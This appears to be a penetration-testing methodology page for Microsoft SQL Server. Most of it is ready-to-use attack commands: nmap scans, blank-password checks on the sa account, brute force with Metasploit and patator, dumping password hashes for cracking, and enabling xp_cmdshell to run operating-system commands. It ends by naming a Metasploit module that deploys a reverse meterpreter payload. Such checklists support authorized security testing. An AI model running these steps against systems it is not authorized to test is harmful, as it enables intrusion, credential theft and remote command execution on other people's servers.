 # MSSQL - Methodology

### Network scan

Nmap can be used to scan the network for exposed MSSQL databases:

```
nmap -v -p 1433 -A -oA nmap_smb <RANGE | CIDR>
```

### Service recon

The Nmap *ms-sql-info.nse* script attempts to determine configuration and
version information for Microsoft SQL Server.  
The script will first gather information by querying the SQL Server Browser
service (that runs by default on UDP port 1434 and provides imprecise
version information) and then sending a probe to the instance to conduct
response packet analysis.

```
nmap --script ms-sql-info --script-args mssql.instance-port=1433 -p 1433 <TARGET>
```

The Metasploit mssql_ping module attempts to retrieve similar information:

```
msf > use auxiliary/scanner/mssql/mssql_ping
```

### Empty password

Whenever targeting a large number of MSSQL services, the
nmap nse script *ms-sql-empty-password.nse* can be used to quickly try to
connect using the sa account and a blank password:

```
nmap -v -sT -p 1433 --script=ms-sql-empty-password.nse <HOSTS>
```

### Authentication brute force

The metasploit auxiliary/scanner/mssql/mssql_login module can be used to brute
force credentials for the service. The BLANK_PASSWORDS option is worth setting
to true.  

The patator tool can be used as well to brute force credentials on the service:

```
patator mssql_login host=<IP> user=FILE0 password=FILE1 0=<WORDLIST_USER> 1=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'

msf > use auxiliary/scanner/mssql/mssql_login
```

### Query the database

The sqsh CLI tool can be used to make queries to the database:

```
sqsh -U <USERNAME> -P <PASSWORD> -S <IP>:<PORT>
```

The **DBeaver** GUI tool can be used to simply access the database content without
knowing the proper MSSQL syntax.

### Dump hashes

If provided with an user credentials of appropriate DB privileges, the nmap
nse script *ms-sql-dump-hashes.nse* can be used to dump the password hashes
from an MS-SQL server in a format suitable for cracking by tools such as
John-the-ripper.

```
nmap -v -sT -p <PORT> --script=ms-sql-dump-hashes.nse --script-args='mssql.username=<USERNAME>,mssql.password=<PASSWORD>' <IP>
```

### OS commands execution

On MSSQL server, operating system commands can be executed using the
*xp_cmdshell* function.  
The *xp_cmdshell* function is deactivated by default from SQL Server 2000 and
upwards and needs to be activated.  
The following query can be used to activate it given the
account used has sufficient privilege (sysadmin):

```SQL
-- To allow advanced options to be changed.  
EXEC sp_configure 'show advanced options', 1;  
go  
-- To update the currently configured value for advanced options.  
RECONFIGURE;  
go  
-- To enable the feature.  
EXEC sp_configure 'xp_cmdshell', 1;  
go
-- To update the currently configured value for this feature.  
RECONFIGURE;  
go  
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
go  
```

The Metasploit module *exploit/windows/mssql/mssql_payload* automates the tasks
above to deploy a payload, such as a reverse meterpreter, on the server.
